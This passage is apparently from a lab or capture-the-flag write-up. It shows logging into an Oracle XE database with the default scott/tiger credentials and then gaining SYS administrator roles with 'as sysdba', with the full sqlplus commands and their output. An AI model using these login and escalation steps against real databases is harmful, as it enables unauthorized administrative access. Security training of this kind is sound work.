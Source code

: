 **Connect** to oracle database with found credential and discover to be able to connect as database **admin** using `as sysdba` (sqlplus) or `--sysdba` (odat)

```console
└─╼$ sqlplus scott/tiger@10.129.95.188:1521/XE
SQL*Plus: Release 21.0.0.0.0 - Production on Tue Feb 20 04:08:08 2024
Version 21.4.0.0.0
Copyright (c) 1982, 2021, Oracle.  All rights reserved.
ERROR:
ORA-28002: the password will expire within 7 days
Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO

----------------------------------------------------------------------------

└─╼$ sqlplus scott/tiger@10.129.95.188:1521/XE as sysdba
...
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
SYS                            EXP_FULL_DATABASE              YES YES NO
SYS                            GATHER_SYSTEM_STATISTICS       YES YES NO
SYS                            HS_ADMIN_EXECUTE_ROLE          YES YES NO
SYS                            HS_ADMIN_ROLE                  YES YES NO
SYS                            HS_ADMIN_SELECT_ROLE           YES YES NO
SYS                            IMP_FULL_DATABASE              YES YES NO
SYS                            LOGSTDBY_ADMINISTRATOR         YES YES NO
SYS                            OEM_ADVISOR                    YES YES NO
SYS                            OEM_MONITOR                    YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            PLUSTRACE                      YES YES NO
SYS                            RECOVERY_CATALOG_OWNER         YES YES NO
SYS                            RESOURCE                       YES YES NO
SYS                            SCHEDULER_ADMIN                YES YES NO
SYS                            SELECT_CATALOG_ROLE            YES YES NO
SYS                            XDBADMIN                       YES YES NO
SYS                            XDB_SET_INVOKER                YES YES NO
SYS                            XDB_WEBSERVICES                YES YES NO
SYS                            XDB_WEBSERVICES_OVER_HTTP      YES YES NO
```